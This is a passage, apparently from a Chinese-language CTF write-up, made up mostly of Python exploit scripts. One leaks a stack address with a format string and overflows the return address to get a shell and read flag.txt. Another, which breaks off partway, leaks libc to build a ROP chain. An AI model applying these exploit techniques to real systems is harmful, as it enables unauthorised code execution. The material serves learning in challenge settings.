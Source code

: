 ```python
    time.sleep(0.5)
    print(s.recv(2048))
    # 写入字符串%p
    payload = b'%p'
    
    s.sendall((payload + b'\n'))
    time.sleep(0.5)
    print(s.recv(1024))
    # 读取地址%p
    payload = b'2'
    s.sendall((payload + b'\n'))
    time.sleep(0.5)
    #'Here is your string:\r\n00D72230'
    r = s.recv(1024).decode('gbk')
    print(r)
    # 选择写入
    payload = b'1'
    s.sendall((payload + b'\n'))
    time.sleep(0.5)
    
    print(s.recv(1024).decode('gbk'))
    # 写入Payload 覆盖返回值, 获取shell
    payload = b'A'*20+(int(r[-8:],base=16)+176).to_bytes(4,'little')
    s.sendall((payload + b'\n'))
    time.sleep(0.5)
    print(s.recv(1024).decode('gbk'))


    payload = b'type flag.txt'
    s.sendall((payload + b'\n'))
    time.sleep(0.5)
    print(s.recv(2048).decode('gbk'))

    s.close()


pwn()
```

### 0x03 upgrade

直接看脚本的注释或者看线下的解释吧...  

```python
#!/usr/bin/env python
from pwn import *

p = process("./pwn2")


p.send('1\n')
print(p.recv())
p.send('15\n')
#print(p.recv())
t = p.recv()
print(t)
libc_main_ret = [int(s) for s in t.split() if s.isdigit()][0]
print(libc_main_ret)

libc_main_base = libc_main_ret - 0x021B97

libc_pop_rdi = libc_main_base + 0x02155f 
libc_pop_rdx_rsi = libc_main_base + 0x01306d9

```